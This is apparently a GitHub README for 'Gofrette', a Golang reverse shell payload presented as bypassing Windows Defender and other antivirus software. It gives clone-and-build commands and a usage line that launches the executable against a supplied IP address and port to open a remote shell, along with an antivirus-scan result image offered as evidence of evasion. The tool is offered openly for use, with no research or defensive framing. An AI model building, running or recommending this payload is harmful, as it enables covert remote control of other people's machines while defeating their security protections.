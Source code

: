 
<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="https://cdn-icons-png.flaticon.com/512/1076/1076284.png"> </a>
</p>


# Gofrette

Gofrette is a reverse shell payload developed in Golang that bypasses Windows defender and many others anti-virus.

<p align="center">
  <a href="" rel="noopener">
 <img src="https://antiscan.me/images/result/d0BjYStMLkBs.png"> </a>
</p>


## Installation

```bash
git clone https://github.com/Enelg52/Gofrette.git
go build gofrette.go
```

## Usage

```bash
.\gofrette.exe -a [ipadress] -p [port]
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
